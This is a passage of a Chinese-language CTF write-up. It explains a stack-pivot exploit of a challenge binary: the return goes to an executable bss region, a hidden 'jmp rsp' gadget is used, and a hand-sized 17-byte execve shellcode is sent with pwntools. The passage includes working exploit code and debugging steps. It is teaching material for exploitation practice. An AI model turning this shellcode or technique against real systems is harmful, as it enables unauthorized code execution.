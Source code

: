 ```
p.sendline(payload)
```

值得注意的是有个隐藏函数提供了一个有用的gadget

![](/n0va6/assets/gitbook/images/Snipaste_2025-08-12_19-33-28.png)

这样在编写shellcode时可以利用这个gadget跳转回去执行我们的代码

本题的难点就在于怎么编写shellcode，使其能够跳转到合理的位置执行代码

我们首先通过pop一个bss可执行段上的地址当做伪造的rbp，再返回read函数开始传参的地址

![](/n0va6/assets/gitbook/images/Snipaste_2025-08-13_11-22-45.png)

![](/n0va6/assets/gitbook/images/Snipaste_2025-08-13_11-25-16.png)

上述代码执行后就会将我们给的bss-9当做输入的起始地址，然后接下来就是编写shellcode了

bss-9加上伪造的rbp一共占17个字节(这一段用来构造shellcode)，接下来的返回地址就要覆盖成sub_rsp_x15返回去执行shellcode，但具体会返回到哪个位置，调试一下会更清楚

先看下这部分的exp，shellcode稍后解释

```
shellcode='''
nop;
nop;
nop;
nop;
mov al,0x3b;
mov edi,0x40203F;
mov esi,ebx;
mov edx,esi;
syscall;
'''
shellcode=asm(shellcode)
print('shellcode>>',len(shellcode))
shellcode+=p64(sub_rsp_x15)
gdb.attach(p)
p.sendline(shellcode)
pause()
p.interactive()
```

这里其实是需要控制shellcode刚好是17个字节这样后面才能覆盖返回地址，方便起见我编写的shellcode就刚好到了17字节(其实是需要进行各种尝试控制shellcode到17字节)，然后接下来进行调试

![](/n0va6/assets/gitbook/images/Snipaste_2025-08-13_11-47-42.png)

第二次read后执行到ret处，此时的rsp指向0x4040c8，存储的正是我们覆盖的返回地址0x40136a，执行后

![](/n0va6/assets/gitbook/images/屏幕截图 2025-08-13 115137.png)

jmp rsp执行后

![](/n0va6/assets/gitbook/images/屏幕截图 2025-08-13 115532.png)
